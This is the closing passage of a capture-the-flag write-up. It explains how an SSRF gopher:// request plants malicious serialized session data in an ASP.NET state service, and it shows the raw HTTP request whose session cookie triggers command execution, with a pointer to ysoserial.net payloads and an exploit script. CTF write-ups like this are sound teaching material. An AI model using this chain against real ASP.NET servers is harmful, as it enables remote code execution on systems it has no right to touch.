 Combine everything together, use `gopher://` to send PUT request to state service to update a malicious session data.

Finally just refresh website with `ASP.NET_SessionId` cookie:
```
GET / HTTP/1.1
Host: donate.support.balsnctf.com
User-Agent: [redacted]
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-TW,zh;q=0.8,en-US;q=0.5,en;q=0.3
Connection: close
Upgrade-Insecure-Requests: 1
Cookie: ASP.NET_SessionId=cykucykucykucykucykucyku

```

Then your command will be executed!

You can try it on your machine with my `exploit.py`, all you have to do is to replace `<payload from ysoserial.net>` with your payload. Also maybe need to modify TARGET to your machine.

And that's all, I hope you like it 😊

## References

- https://github.com/pwntester/ysoserial.net
- https://github.com/microsoft/referencesource/blob/1acafe20a789a55daa17aac6bb47d1b0ec04519f/System.Web/State/SessionStateUtil.cs#L209
- https://github.com/microsoft/referencesource/blob/1acafe20a789a55daa17aac6bb47d1b0ec04519f/System.Web/State/OutOfProcStateClientManager.cs#L530
